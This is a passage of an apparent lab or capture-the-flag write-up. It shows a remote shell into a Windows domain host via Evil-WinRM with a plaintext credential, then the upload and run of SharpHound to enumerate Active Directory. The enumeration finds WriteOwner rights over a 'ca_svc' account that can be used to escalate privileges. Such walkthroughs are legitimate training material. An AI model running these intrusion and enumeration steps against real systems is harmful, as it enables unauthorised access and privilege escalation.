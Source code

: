 ```
┌──(kali㉿kali)-[~/Documents/escape2]
└─$ evil-winrm -i 10.10.11.51 -u ryan -p WqSZAF6CysDQbGb3
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\ryan\Documents>
```

## Privilege Escalation

### Deploying Bloodhound

With remote access as this user, we can use SharpHound+Bloodhound to enumerate potential AD-based privilege escalation vectors. There are several methods, here I will apply a precompiled SharpHound executable retrieved from https://github.com/jakobfriedl/precompiled-binaries

```
*Evil-WinRM* PS C:\Users\ryan\Downloads> upload SharpHound.exe
                                        
Info: Uploading /home/kali/Documents/escape2/SharpHound.exe to C:\Users\ryan\Downloads\SharpHound.exe
                                        
Data: 1791316 bytes of 1791316 bytes copied
                                        
Info: Upload successful!
*Evil-WinRM* PS C:\Users\ryan\Downloads> .\SharpHound.exe -c All
<...SNIP...>
 286 name to SID mappings.
 1 machine sid mappings.
 2 sid to domain mappings.
 0 global catalog mappings.
2025-05-15T11:13:33.5686824-07:00|INFORMATION|SharpHound Enumeration Completed at 11:13 AM on 5/23/2025! Happy Graphing!

```

In Bloodhound, we can view Outbound Object Control to find Ryan has WriteOwner permissions over user account `ca_svc`

![](Images/ryanwriteowner.png)
